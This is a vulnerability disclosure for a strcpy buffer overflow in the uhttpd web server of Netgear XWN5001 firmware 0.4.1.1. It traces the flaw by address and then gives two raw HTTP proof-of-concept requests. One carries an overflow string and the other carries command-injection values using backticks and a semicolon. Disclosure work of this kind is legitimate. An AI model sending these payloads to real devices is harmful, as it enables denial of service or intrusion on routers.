


# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary has a buffer overflow vulnerability. When a specific network packet is sent to the uhttpd binary, the strcpy operation crashes. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x43BA94 of the binary usr/sbin/uhttpd. 

Firstly, parameter ether_ipaddr is passed to lan_ipaddr in nvram through nvram_set in function ether at 0X4355D8.

ether:



Secondly, The lan_ipaddr in nvram is passed to strcpy in function lan (line 110 in the picture, 0x43BEB4) which is source of the issue.

lan:



## Send package
Pakcges should be sent in order.
# package1
```txt
POST /apply.cgi?pls_wait_reboot.html HTTP/1.1
Accept: pls_wait.html
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Host: 249
Connection: aaaaaaa
Content-Type: application/json
Content-Length: 650

ether_ipaddr=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&device_name=122&diag_type=1&New5GSSID=`wzq`&submit_flag=ether&%20timestamp=aaaaaaaaaa

```

# package2
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

hid_array_num=111&lan_ipaddr=1&lan_subnet=1&dhcp_mode=1&dhcp_start=1&dhcp_end=1&change_network_flag=1&change_ip_flag=1&network=1&dmz_ip=1&bs_trustedip=1&sysRIPVersion=1&rip_direction=1&device_name=1&change_network2_flag=1&net_leng=1&device=12&%20timestamp=;wzq&submit_flag=lan
```
